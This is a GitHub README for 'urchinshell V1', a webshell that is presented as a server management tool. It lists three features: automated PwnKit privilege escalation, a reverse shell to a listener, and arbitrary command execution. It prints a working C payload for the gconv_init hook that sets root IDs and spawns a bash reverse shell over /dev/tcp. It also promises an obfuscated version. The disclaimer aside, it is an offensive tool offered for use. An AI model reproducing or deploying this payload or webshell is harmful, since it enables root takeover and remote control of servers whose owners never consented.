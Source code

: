 # urchinshell V1

This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)

**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

![Screenshot_20220202_002639](https://user-images.githubusercontent.com/49201347/152054318-8a6bae94-48f2-4e92-a225-926e7e2baa95.png)

## How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp


Artwork : [witchdoctorsec](https://github.com/witchdocsec/)
